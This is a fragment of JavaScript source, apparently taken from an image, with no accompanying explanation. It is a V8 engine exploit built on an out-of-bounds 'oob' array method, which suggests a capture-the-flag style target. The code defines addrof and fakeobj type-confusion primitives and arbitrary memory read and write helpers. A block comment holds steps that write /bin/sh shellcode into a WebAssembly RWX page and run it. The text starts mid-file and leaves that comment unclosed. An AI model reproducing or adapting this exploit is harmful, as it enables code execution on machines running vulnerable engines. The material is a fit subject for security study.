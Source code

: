 ```jsx
}

var obj = {"A":1};
var obj_arr = [obj];
var float_arr = [1.1, 1.2, 1.3, 1.4];
var obj_arr_map = obj_arr.oob();
var float_arr_map = float_arr.oob();

function addrof(in_obj) {
    obj_arr[0] = in_obj;
    obj_arr.oob(float_arr_map);
    let addr = obj_arr[0];
    obj_arr.oob(obj_arr_map);
    return ftoi(addr);
}

function fakeobj(addr) {
    float_arr[0] = itof(addr);
    float_arr.oob(obj_arr_map);
    let fake = float_arr[0];
    float_arr.oob(float_arr_map);
    return fake;
}

var arb_rw_arr = [float_arr_map, 0, 1.3, 8]

function aar(addr) {
    if (addr % 2n == 0)
		addr += 1n;

    let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);
    arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);

    return ftoi(fake[0]);
}

function aaw_init(addr, val) {
    let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);
    arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);
    fake[0] = itof(BigInt(val));
}

/*
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;

var wasm_i_addr = addrof(wasm_instance);
var rwx = aar((wasm_i_addr)+0x88n);

var shellcode = [0xbb48f631, 0x6e69622f, 0x68732f2f, 0x5f545356, 0x31583b6a, 0x050fd2];
var shellcode_buf = new ArrayBuffer(0x100);
var dataview = new DataView(shellcode_buf);
aaw_init(addrof(shellcode_buf)+0x20n, rwx);

for (var i=0; i<shellcode.length; i++) {
	  dataview.setUint32(4*i, shellcode[i], true);
}
f();
```